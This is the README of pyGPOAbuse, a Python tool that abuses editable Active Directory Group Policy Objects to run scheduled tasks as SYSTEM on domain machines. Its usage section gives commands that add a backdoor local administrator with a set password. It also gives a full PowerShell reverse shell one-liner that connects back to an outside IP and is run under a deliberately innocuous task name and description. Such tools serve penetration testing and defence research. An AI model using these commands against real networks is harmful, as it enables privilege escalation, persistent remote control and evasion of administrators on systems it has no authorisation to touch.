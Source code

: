 # pyGPOAbuse

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
``` 

### Advanced usage

Reverse shell example

```bash
podman build -t pygpoabuse .

podman run -it pygpoabuse

./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Doing stuff, no look here" \ 
    -user

``` 

### Cleanup
Delete the scheduled task after it executed.

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" --cleanup
```


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)

